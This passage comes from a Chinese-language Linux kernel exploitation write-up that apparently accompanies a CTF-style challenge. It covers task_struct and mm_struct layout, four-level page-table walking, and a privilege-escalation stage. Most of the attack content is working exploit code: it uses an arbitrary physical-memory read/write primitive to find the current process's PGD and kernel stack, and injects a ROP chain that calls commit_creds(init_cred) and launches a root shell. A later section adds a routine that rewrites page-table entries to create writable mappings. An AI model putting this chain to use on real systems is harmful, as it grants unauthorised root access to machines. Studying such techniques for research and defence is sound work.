    unsigned long task_size;               // 偏移0x30，任务大小
    unsigned long highest_vm_end;          // 偏移0x38，最高虚拟地址

    // 页表管理
    pgd_t *pgd;                            // 偏移0x40，页全局目录指针
    atomic_t mm_users;                     // 偏移0x48，用户计数
    atomic_t mm_count;                     // 偏移0x4c，引用计数
    atomic_long_t pgtables_bytes;          // 偏移0x50，页表占用字节数

    // 内存区域边界
    unsigned long start_code, end_code;    // 偏移0x60,0x68，代码段范围
    unsigned long start_data, end_data;    // 偏移0x70,0x78，数据段范围
    unsigned long start_brk, brk;         // 偏移0x80,0x88，堆区域边界
    unsigned long start_stack;            // 偏移0x90，用户栈起始地址

    // 参数和环境变量
    unsigned long arg_start, arg_end;     // 偏移0x98,0xa0，参数区域
    unsigned long env_start, env_end;     // 偏移0xa8,0xb0，环境变量区域

    // 内存统计
    unsigned long total_vm;               // 偏移0xb8，总虚拟内存
    unsigned long locked_vm;              // 偏移0xc0，锁定内存
    unsigned long pinned_vm;              // 偏移0xc8，固定内存
    unsigned long data_vm;                // 偏移0xd0，数据段内存
    unsigned long exec_vm;                // 偏移0xd8，代码段内存
    unsigned long stack_vm;               // 偏移0xe0，栈内存
};
```

**关键字段详解**：

| 字段          | 偏移 | 大小  | 描述                                      |
| ------------- | ---- | ----- | ----------------------------------------- |
| `mmap`        | 0x00 | 8字节 | 指向VMA链表头的指针，管理所有虚拟内存区域 |
| `mm_rb`       | 0x08 | 8字节 | VMA红黑树的根，加速VMA查找                |
| `pgd`         | 0x40 | 8字节 | 页全局目录指针，页表翻译的根节点          |
| `start_code`  | 0x60 | 8字节 | 代码段起始虚拟地址                        |
| `end_code`    | 0x68 | 8字节 | 代码段结束虚拟地址                        |
| `start_data`  | 0x70 | 8字节 | 数据段起始虚拟地址                        |
| `end_data`    | 0x78 | 8字节 | 数据段结束虚拟地址                        |
| `start_stack` | 0x90 | 8字节 | 用户栈起始虚拟地址                        |

##### PGD（页全局目录）

PGD是Linux内核四级页表体系中的最高级别，负责虚拟地址到物理地址的转换：

```c
// 页表相关数据结构（x86_64架构）
typedef struct { pgdval_t pgd; } pgd_t;     // PGD条目
typedef struct { p4dval_t p4d; } p4d_t;     // P4D条目
typedef struct { pmdval_t pmd; } pmd_t;     // PMD条目
typedef struct { pteval_t pte; } pte_t;     // PTE条目

// 四级页表翻译流程
// 虚拟地址: 0xffff888012345678
// 分解为:
//   PGD索引: bits 47-39 (9 bits)
//   P4D索引: bits 38-30 (9 bits)
//   PMD索引: bits 29-21 (9 bits)
//   PTE索引: bits 20-12 (9 bits)
//   页内偏移: bits 11-0  (12 bits)
```

**PGD的作用**：

1. **地址转换起点**：作为页表翻译的第一级，存储P4D表的基址
2. **进程隔离**：每个进程拥有独立的PGD，实现地址空间隔离
3. **内存保护**：通过页表项中的权限位控制内存访问权限
4. **大页支持**：支持2MB和1GB大页映射，提高TLB命中率

**页表翻译示例**：

```
虚拟地址: 0xffff888012345678
├── PGD索引: 0x1 (位47-39)
├── P4D索引: 0x0 (位38-30)  # x86_64通常P4D=PGD
├── PMD索引: 0x123 (位29-21)
├── PTE索引: 0x45 (位20-12)
└── 页内偏移: 0x678 (位11-0)

翻译过程：
1. CR3寄存器 → PGD基址
2. PGD基址 + PGD索引×8 → P4D条目
3. P4D条目（如果存在）→ PMD表基址
4. PMD表基址 + PMD索引×8 → PTE表基址
5. PTE表基址 + PTE索引×8 → 物理页帧
6. 物理页帧 + 页内偏移 → 最终物理地址
```

#### 4-10-3. 定位当前task_struct

```c
log.info("Reading current task_struct via physical memory mapping");
for (round = 0; ; round++) {
    memset(page_buffer, 0, 0x1000);
    arbitrary_phys_read(((current_task_page_addr & (~0xfff)) + round * 0x40), 0, page_buffer, 0xf00);
```

**扫描机制**：

- 从已知的`current_task_page_addr`物理页基址开始
- 每次迭代前进`0x40`字节（64字节），读取`0xf00`字节（3840字节）
- 通过`memmem`函数在读取的缓冲区中搜索特征字符串"pwn4kernel"

#### 4-10-4. 验证task_struct

```c
current_comm_ptr = (size_t*)memmem(page_buffer, 0xf00, "pwn4kernel", 10);

// Validate current task_struct by checking critical field integrity
if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000)      // cred validity
    && (current_comm_ptr[-3] > 0xffff888000000000)                       // real_cred validity
    && (current_comm_ptr[-57] > 0xffff888000000000)                      // real_parent validity
    && (current_comm_ptr[-56] > 0xffff888000000000)) {                   // parent validity
```

**验证逻辑**：

1. **特征字符串验证**：通过"pwn4kernel"字符串定位`comm`字段
2. **多字段交叉验证**：检查关键指针是否指向合法内核地址空间
3. **防御机制**：防止误匹配或内存损坏导致的错误识别

**关键指针验证表**：

| 指针类型      | 相对comm偏移 | 验证条件             | 用途                         |
| ------------- | ------------ | -------------------- | ---------------------------- |
| `cred`        | -2 (0xb60)   | > 0xffff888000000000 | 进程凭证结构，用于权限提升   |
| `real_cred`   | -3 (0xb58)   | > 0xffff888000000000 | 原始凭证结构，安全性验证     |
| `real_parent` | -57 (0x9a8)  | > 0xffff888000000000 | 真实父进程指针，进程关系验证 |
| `parent`      | -56 (0x9b0)  | > 0xffff888000000000 | 父进程指针，进程关系验证     |

#### 4-10-5. 定位mm_struct与内核栈地址

```c
// Calculate field offsets based on known task_struct layout
// mm_struct offset: 0x920, stack offset: 0x20, comm offset: 0xb70
// mm offset index: (0xb70 - 0x920) / 8 = 74
// stack offset index: (0xb70 - 0x20) / 8 = 362
mm_struct_addr = current_comm_ptr[-74];
stack_addr = current_comm_ptr[-362];
```

**偏移计算原理**：

1. **已知布局**：基于特定内核版本的`task_struct`布局
2. **指针大小**：x86_64架构下指针大小为8字节
3. **索引计算**：通过字节偏移差除以8得到数组索引

#### 4-10-6. 校验地址

```c
if (mm_struct_addr > 0xffff888000000000 && stack_addr > 0xffff888000000000) {
    break;
}
```

**验证标准**：

- 确保提取的地址位于内核地址空间
- 防止访问用户空间或无效地址
- 确保后续操作的安全性

#### 4-10-7. 提取PGD地址

```c
mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);
// Read mm_struct to extract page table root
arbitrary_phys_read(mm_struct_page, 0, page_buffer, 0xf00);
mm_struct_buf = (size_t *)((size_t)page_buffer + (mm_struct_addr & 0xfff));
pgd_addr = mm_struct_buf[9]; // mm->pgd field index
```

**PGD提取步骤**：

1. **计算物理页**：将`mm_struct`虚拟地址转换为物理页地址
2. **读取物理页**：读取`mm_struct`所在的整个物理页
3. **定位结构体**：通过虚拟地址的低12位（页内偏移）定位`mm_struct`
4. **提取PGD**：获取`mm_struct`中第9个8字节字段（`pgd`字段）

**mm_struct关键字段布局**：

```c
struct mm_struct {
    // ... 其他字段
    struct vm_area_struct *mmap;        // 偏移0x00
    struct rb_root mm_rb;              // 偏移0x08
    // ...
    pgd_t *pgd;                        // 偏移0x40 (第9个8字节)
    // ...
};
```

**PGD提取验证**：

提取PGD地址后，可通过以下方式验证其有效性：

1. **地址空间检查**：确保PGD地址位于内核地址空间
2. **对齐检查**：PGD地址通常页对齐（低12位为0）
3. **内容验证**：检查PGD条目是否包含有效的页表标志位

通过以上步骤，`pgd_vaddr_resolve`函数成功地从当前进程的`task_struct`中提取了`mm_struct`地址、内核栈地址和PGD地址，为后续的内核操作提供了必要的基础内存结构信息。

### 4-11. 四级页表解析算法

#### 4-11-1. 四级页表概述

在x86_64架构下，Linux内核采用四级页表结构来管理虚拟地址到物理地址的转换。每一级页表包含512个8字节条目，整个四级页表结构能够映射完整的48位虚拟地址空间。

**四级页表层级结构**：

- **PGD (Page Global Directory)** - 页全局目录
- **PUD (Page Upper Directory)** - 页上级目录
- **PMD (Page Middle Directory)** - 页中间目录
- **PTE (Page Table Entry)** - 页表项

**虚拟地址分解**

x86_64架构下，48位虚拟地址（标准配置）被分解为五个部分：

```
虚拟地址: 0xffff888012345678
┌───────────────────────────┐
│ 位[47:39] (9位): PGD索引  → 0x1                     │
│ 位[38:30] (9位): PUD索引  → 0x0                     │
│ 位[29:21] (9位): PMD索引  → 0x123                   │
│ 位[20:12] (9位): PTE索引  → 0x45                    │
│ 位[11:0]  (12位): 页内偏移 → 0x678                  │
└───────────────────────────┘
```

#### 4-11-2. 核心函数实现

**地址解析主函数**

`vaddr_resolve`函数通过逐级遍历页表，实现虚拟地址到物理地址的转换：

```c
size_t vaddr_resolve(size_t pgd_addr, size_t vaddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pte_addr, pte_val;

  // 第4级: PGD → PUD
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // 第3级: PUD → PMD
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // 第2级: PMD → PTE
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_addr = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pte_addr += page_offset_base;
  log.debug("Resolved PMD(%#lx)[%#lx] -> PTE: %#lx", pmd_addr, PMD_ENTRY(vaddr), pte_addr);

  // 第1级: PTE → 物理页帧
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);
  return pte_val;
}
```

**直接映射区转换函数**

`direct_map_addr_to_page_addr`函数将直接映射区虚拟地址转换为对应的物理页地址：

```c
size_t direct_map_addr_to_page_addr(size_t direct_map_addr) {
  size_t page_count;

  // 计算物理页帧号
  page_count = ((direct_map_addr & (~0xfff)) - page_offset_base) / 0x1000;

  // 返回对应的vmemmap页地址
  return vmemmap_base + page_count * 0x40;
}
```

#### 4-11-3. 关键技术原理

**页表条目结构**

x86_64架构下，每级页表条目为8字节，包含物理页帧基址和属性标志：

<pre>
页表条目格式 (8字节):
63          12 11         9 8 7 6 5 4 3 2 1 0
┌─────────────┬────────────┬─────────────────┐
│ 物理页帧基址 │ 保留位      │ 属性标志        │
└─────────────┴────────────┴─────────────────┘

关键属性标志:
位0:  Present (P) - 页面是否存在
位1:  Write/Read (R/W) - 可写/只读
位2:  User/Supervisor (U/S) - 用户/内核访问权限
位7:  Page Size (PS) - 大页标志
位63: No Execute (NX) - 不可执行标志
</pre>

**索引计算**

地址解析过程中使用以下宏从虚拟地址提取各级索引：

```c
#define PGD_ENTRY(vaddr) (((vaddr) >> 39) & 0x1FF)  // 提取PGD索引
#define PUD_ENTRY(vaddr) (((vaddr) >> 30) & 0x1FF)  // 提取PUD索引
#define PMD_ENTRY(vaddr) (((vaddr) >> 21) & 0x1FF)  // 提取PMD索引
#define PTE_ENTRY(vaddr) (((vaddr) >> 12) & 0x1FF)  // 提取PTE索引
```

**直接映射区原理**

Linux内核将物理内存线性映射到虚拟地址空间，称为直接映射区：

```
直接映射区示例:
虚拟地址范围: 0xffff888000000000 - 0xffffc8ffffffffff
物理地址范围: 0x0000000000000000 - 0x000000xxxxxxxxxx
转换公式: 物理地址 = 虚拟地址 - 0xffff888000000000
```

`direct_map_addr_to_page_addr`函数通过此原理计算物理页地址。

**大页映射机制**

四级页表支持大页映射，可提高内存访问效率和TLB命中率。

**2MB大页**

当PTE条目的PS标志位为1时，表示2MB大页映射：

```
2MB大页:
- 跳过PTE级别
- 物理地址: 2MB对齐
- PMD条目直接指向2MB物理页
```

**1GB大页**

当PMD条目的PS标志位为1时，表示1GB大页映射：

```
1GB大页:
- 跳过PMD和PTE级别
- 物理地址: 1GB对齐
- PUD条目直接指向1GB物理页
```

#### 4-11-4. 地址解析流程

**页表遍历过程**

```
四级页表遍历流程:
1. 从PGD地址开始，通过PGD索引获取PUD地址
2. 从PUD地址开始，通过PUD索引获取PMD地址
3. 从PMD地址开始，通过PMD索引获取PTE地址
4. 从PTE地址开始，通过PTE索引获取物理页帧
```

**关键变量说明**

| 变量名              | 类型           | 描述            |
| ------------------- | -------------- | --------------- |
| `pgd_addr`          | size_t         | 页全局目录基址  |
| `page_table_buffer` | size_t[0x1000] | 页表读取缓冲区  |
| `pud_addr`          | size_t         | 页上级目录地址  |
| `pmd_addr`          | size_t         | 页中间目录地址  |
| `pte_addr`          | size_t         | 页表项地址      |
| `pte_val`           | size_t         | 物理页帧地址    |
| `page_offset_base`  | size_t         | 直接映射区基址  |
| `vmemmap_base`      | size_t         | vmemmap区域基址 |

#### 4-11-5. 内存访问模式

**物理内存读取**

函数通过`arbitrary_phys_read`函数读取物理内存：

```c
// 函数原型
void arbitrary_phys_read(size_t phys_page, size_t offset,
                         void *buffer, size_t length);
```

**页表读取策略**

每次读取包含两级操作：

1. 读取页表页的前4KB（0x1000字节）
2. 额外读取页表页的后续部分，确保获取完整页表条目

#### 4-11-6. 算法特点

1. **逐级遍历**：严格按照四级页表结构逐级解析
2. **物理内存访问**：直接读取物理内存中的页表
3. **虚拟地址转换**：在各级转换中将物理地址转换为内核虚拟地址
4. **属性处理**：清除页表条目的属性标志，获取纯净的物理地址
5. **大页支持**：自动处理大页映射情况

通过实现完整的四级页表解析算法，该函数提供了在软件层面进行虚拟地址到物理地址转换的能力，为深入理解Linux内核内存管理机制提供了重要工具。

### 4-12. 权限提升

权限提升是内存控制技术的最终目标，通过在内核栈中注入并执行ROP链，将普通用户进程的权限提升至root级别。该过程分为两个核心阶段：构造ROP链、权限提升执行机制。

#### 4-12-1. 构造ROP链

在获得物理内存访问能力和内核元数据后，通过ROP链技术实现权限提升：

```c
void privilege_escalation_by_rop_chain(void) {
  size_t rop_chain[0x1000];
  size_t rop_index = 0;

retry_exploit:

  // 步骤1：解析内核页表并获取栈地址
  log.info("解析内核页表层次以获取栈操作能力");
  pgd_vaddr_resolve();

  // 步骤2：定位内核栈物理页
  log.info("遍历页表以定位内核栈物理页");

  // 内核栈在vmalloc区域分配，可能不物理连续
  // 定位内核栈的最后一页（4页内核栈中的第4页），避免干扰活跃栈帧
  stack_addr_another = vaddr_resolve(pgd_addr, stack_addr + PAGE_SIZE * 3);
  stack_addr_another &= (~PAGE_ATTR_NX); // 清除NX位以获得可执行映射
  stack_addr_another += page_offset_base;
  log.success("定位到备选内核栈映射: 0x%lx", stack_addr_another);

  stack_page = direct_map_addr_to_page_addr(stack_addr_another);
  log.info("计算得到内核栈目标页: 0x%lx", stack_page);

  // 步骤3：构造ROP链用于权限提升
  log.info("构造权限提升ROP链");

  // 填充初始栈空间用于对齐
  for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
    rop_chain[rop_index++] = RET + kernel_offset;
  }

  // 权限提升ROP链组件
  rop_chain[rop_index++] = POP_RDI_RET + kernel_offset;           // pop rdi; ret
  rop_chain[rop_index++] = INIT_CRED + kernel_offset;             // init_cred地址
  rop_chain[rop_index++] = COMMIT_CREDS + kernel_offset;         // commit_creds(init_cred)
  rop_chain[rop_index++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x42 + kernel_offset;
  rop_chain[rop_index++] = *(size_t *)"BinRacer";
  rop_chain[rop_index++] = *(size_t *)"BinRacer";
  rop_chain[rop_index++] = (size_t)get_root_shell;               // 返回到shell函数
  rop_chain[rop_index++] = user_cs;                              // 保存的cs
  rop_chain[rop_index++] = user_rflags;                          // 保存的rflags
  rop_chain[rop_index++] = (user_sp + 8);                        // 调整后的栈指针
  rop_chain[rop_index++] = user_ss;                             // 保存的ss

  // 步骤4：通过物理内存访问将ROP链写入内核栈
  log.info("将ROP链注入内核栈页");
  log.info("内核栈目标页: 0x%lx, 偏移: 0x0", stack_page);

  fflush(stdout);
  sleep(5); // 短暂暂停以便系统稳定

  arbitrary_phys_write(stack_page, 0, rop_chain, 0xff0);
  log.success("ROP链成功注入内核栈");

  // 步骤5：触发内核执行ROP链
  // ROP链将在下一次内核到用户模式转换时执行
  // 如果到达此处，则操作失败，需要重试
  log.warn("ROP链注入完成 - 等待权限提升");
  log.warn("如果未获得root shell，将重试操作...");
  goto retry_exploit;
}
```

**ROP链执行流程**：

1. **栈对齐**：通过RET指令滑动确保正确对齐
2. **参数准备**：`pop rdi`指令将`init_cred`地址加载到RDI寄存器
3. **权限提升**：调用`commit_creds(init_cred)`设置root凭证
4. **上下文恢复**：通过`swapgs_restore_regs_and_return_to_usermode`恢复用户态
5. **shell执行**：返回用户态执行`get_root_shell()`函数

**内核栈布局策略**：

```
4页内核栈布局：
+------------+ +------------+ +------------+ +------------+
| 栈页1      | | 栈页2      | | 栈页3      | | 栈页4      |
| 活跃栈帧   | | 中间栈帧   | | 较旧栈帧   | | 最旧栈帧   |
| (可能活跃) | | (可能活跃) | | (较少使用) | | (很少使用) |
+------------+ +------------+ +------------+ +------------+
      ↑               ↑               ↑               ↑
  当前栈指针      历史栈帧        目标注入区域    最终注入点

选择策略：
- 避免页1和页2：包含活跃栈帧，修改可能引起崩溃
- 考虑页3：包含较旧栈帧，相对安全
- 选择页4：最旧栈帧，最不可能被访问，安全性最高
```

#### 4-12-2. 权限提升执行机制

ROP链触发后的系统状态变化：

**执行前系统状态**：

```
当前进程凭证：
uid=1000, gid=1000, euid=1000, egid=1000
权限：普通用户权限
能力集：受限能力
```

**ROP链执行过程**：

1. **控制流转移**：内核执行路径返回到注入的ROP链
2. **凭证提升**：`commit_creds(init_cred)`将进程凭证设置为root
3. **上下文切换**：`swapgs`指令切换GS段寄存器
4. **寄存器恢复**：恢复保存的用户态寄存器状态
5. **返回用户态**：通过`sysretq`或`iretq`返回用户态

**执行后系统状态**：

```
提升后进程凭证：
uid=0, gid=0, euid=0, egid=0
权限：root权限
能力集：完整能力集
```

**权限提升验证**：

```c
// root shell获取函数
void get_root_shell(void) {
    if (getuid() == 0) {
        log.success("权限提升成功！获得root权限");
        system("/bin/sh");
    } else {
        log.error("权限提升失败，当前UID: %d", getuid());
    }
}
```

**安全恢复机制**：

| 机制     | 实现方法       | 保护目标         | 效果评估 |
| -------- | -------------- | ---------------- | -------- |
| 栈完整性 | 仅修改最旧栈页 | 避免破坏活跃栈帧 | 高安全性 |
| 执行顺序 | 严格ROP链顺序  | 确保正确执行流程 | 高可靠性 |
| 错误恢复 | 重试机制       | 处理临时失败     | 高可用性 |

### 4-13. 技术总结

本技术实现完整展示了从基础环境准备到系统权限提升的十二个连续阶段，构建了一个从微操作到系统控制的完整技术链条。第一阶段完成环境初始化与系统准备，建立稳定的操作基础；第二阶段通过精细的内存布局控制实现物理内存的确定性分布；第三阶段利用单字节修改触发非对称页面共享，实现微操作级联放大效应；第四阶段建立双重标记验证机制，确保状态转换的可预测性和可验证性；第五阶段提取内核元数据，获取内核基址和关键偏移；第六阶段构建二级控制链，建立可控的内存访问路径；第七阶段构造Pipe Chain，实现数据结构间的稳定关联；第八阶段构建物理内存读写原语，获得底层内存操作能力；第九阶段进行系统内存勘探，定位关键内存区域和数据结构；第十阶段提取PGD与内核栈地址，为权限提升奠定基础；第十一阶段实现四级页表解析算法，建立完整的内存转换体系；第十二阶段通过安全的内核栈注入和ROP链执行，最终实现从用户态普通权限到root权限的安全提升。整个技术体系体现了内存控制技术从基础原语到系统控制的全流程演进，为内存安全研究提供了完整的技术参考和实践案例。

## 5. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 6. 进阶分析：USMA技术

exploit核心代码如下：

```c
/*
 * ============================================================================
 * PRIVILEGE ESCALATION
 * ============================================================================
 */

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)

// Kernel page table management state tracking
size_t pgd_addr;                            // Page global directory address
size_t mm_struct_addr;                      // Memory management structure address
size_t *mm_struct_buf;                      // Buffer for mm_struct data
size_t stack_addr;                          // Current kernel stack virtual address
size_t stack_addr_another;                  // Alternate kernel stack virtual address
size_t stack_page;                          // Physical page containing kernel stack
size_t mm_struct_page;                      // Physical page containing mm_struct

// Traverse 4-level paging hierarchy to resolve virtual address to physical address
// Returns physical page frame number for the given virtual address
size_t vaddr_resolve(size_t pgd_addr, size_t vaddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pte_addr, pte_val;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> Page Table Entry
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_addr = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pte_addr += page_offset_base;
  log.debug("Resolved PMD(%#lx)[%#lx] -> PTE: %#lx", pmd_addr, PMD_ENTRY(vaddr), pte_addr);

  // Level 1: Page Table Entry -> Physical Page Frame
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);
  return pte_val;
}

// Optimized virtual address resolution for 3-level paging (legacy PAE mode)
// Skips PTE level for 2MB large pages with 3-level hierarchy
size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pmd_value;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> 2MB large page frame
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_value = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PMD(%#lx)[%#lx] -> value: %#lx", pmd_addr, PMD_ENTRY(vaddr), pmd_value);
  return pmd_value;
}

// Remap virtual address to new physical address by modifying page table entries
// Establishes writable mapping for target virtual address
void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pte_addr, pte_val;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, page_table_buffer, 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> Page Table Entry
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_addr = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pte_addr += page_offset_base;
  log.debug("Resolved PMD(%#lx)[%#lx] -> PTE: %#lx", pmd_addr, PMD_ENTRY(vaddr), pte_addr);

  // Level 1: Read current PTE value before modification
  if(PTE_ENTRY(vaddr) >= 0x1000 / 8) {
      arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xff0);
      pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
      log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);

      // Update PTE with new physical address and writable permissions
      page_table_buffer[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; // Set writable flag
      arbitrary_phys_write(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xff0);
      log.debug("Updated PTE(%#lx)[%#lx] -> Physical frame: %#lx",
          pte_addr, PTE_ENTRY(vaddr), page_table_buffer[PTE_ENTRY(vaddr)]);
  } else {
      arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0xff0);
      pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
      log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);

      // Update PTE with new physical address and writable permissions
      page_table_buffer[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; // Set writable flag
      arbitrary_phys_write(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0xff0);
      log.debug("Updated PTE(%#lx)[%#lx] -> Physical frame: %#lx",
          pte_addr, PTE_ENTRY(vaddr), page_table_buffer[PTE_ENTRY(vaddr)]);
  }
}

// Extract process memory management structures from task_struct
// Resolves kernel page table root (PGD) and stack addresses for ROP targeting
void pgd_vaddr_resolve(void) {
  size_t round = 0;
  size_t page_buffer[0x1000];
